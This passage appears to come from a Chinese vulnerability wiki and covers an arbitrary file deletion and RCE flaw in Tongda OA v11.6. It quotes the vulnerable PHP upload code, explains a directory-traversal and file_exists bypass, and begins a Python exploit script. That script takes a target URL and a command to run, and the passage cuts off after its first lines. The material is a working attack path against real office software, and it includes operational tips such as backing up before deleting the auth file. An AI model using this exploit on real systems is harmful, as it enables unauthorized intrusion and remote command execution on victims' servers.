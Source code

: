 ```php
			if (move_uploaded_file($_FILES["FILE1"]["tmp_name"], $uploaddir . $s_n)) {
			}
		}
	}

	@unlink($_FILES["FILE1"]);
}
```

在这段代码中，如果不存在 **$from_rep** 变量则会跳到如下代码

```php
else {
			$s_n = $_FILES["FILE1"]["name"];

			if ($s_n[0] != "{") {
				$s_n = $repkid . "_" . $s_n;
			}

			if (move_uploaded_file($_FILES["FILE1"]["tmp_name"], $uploaddir . $s_n)) {
			}
		}
```

这里直接将 **$repkid** 变量进行拼接,也就是说可以通过目录穿越来上传恶意文件到指定目录

> [!NOTE]
>
> 这里需要利用file_exists函数的漏洞构造/.<>./.<>./.<>./ 逃逸出来

使用POC来利用漏洞

![](http://wikioss.peiqi.tech/vuln/tongdaoa-22.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

> [!NOTE]
>
> 注意在删除验证身份的文件后，会造成后台页面出现如下图，使用前备份文件

![](http://wikioss.peiqi.tech/vuln/tongdaoa-23.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

## 漏洞利用POC

```python
#!/usr/bin/python3
#-*- coding:utf-8 -*-
# author : PeiQi
# from   : http://wiki.peiqi.tech


import requests
import re
import base64
import sys


def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mVersion: 通达OA v11.6 任意文件删除&RCE                                \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                           \033[0m')
    print('+  \033[36mUrl    >>> http://xxx.xxx.xxx.xxx                                 \033[0m')
    print('+  \033[36mCmd    >>> whoami                                                 \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    check_url = target_url + "/module/appbuilder/assets/print.php"
```